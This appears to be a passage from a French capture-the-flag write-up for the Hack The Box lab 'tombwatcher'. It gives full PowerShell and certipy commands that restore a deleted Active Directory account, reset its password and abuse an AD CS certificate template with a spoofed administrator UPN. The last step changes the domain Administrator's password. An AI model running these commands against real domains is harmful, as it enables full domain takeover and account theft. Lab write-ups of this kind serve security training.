```
                  DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectGUID      : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
objectSid       : S-1-5-21-1392491010-1358638721-2126982587-1111
lastKnownParent : OU=ADCS,DC=tombwatcher,DC=htb
```

Plusieurs comptes **cert_admin** supprimés sont trouvés.
- Restauration du compte supprimé `cert_admin` :

```powershell
Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

Réinitialisation et activation du compte

```powershell
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "NewP@ssw0rd123" -Force)
```

```powershell
Enable-ADAccount -Identity cert_admin
```

![[Pasted image 20250610053438.png]]

Recherche de vulnérabilités associées à `cert_admin`

```bash
certipy-ad find -u 'cert_admin' -p 'NewP@ssw0rd123' -dc-ip 10.10.11.72 -vulnerable -stdout
```

![[Pasted image 20250612112957.png]]

Utilisation du compte cert_admin pour demander un certificat TLS

```bash
certipy-ad req -dc-ip 10.10.11.72 -ca 'tombwatcher-CA-1' -target-ip 10.10.11.72 -u cert_admin@tombwatcher.htb -p'NewP@ssw0rd123' -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

![[Pasted image 20250612113325.png]]

Extraction du certificat et authentification avec celui-ci via **certipy**
Passage du mot de passe Administrateur :

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
change_password Administrator NewP@ssw0rd123
```

![[Pasted image 20250612113406.png]]

Prise de contrôle complète du compte Administrateur (privilèges élevés).

![[Pasted image 20250612114014.png]]

[^1]: 

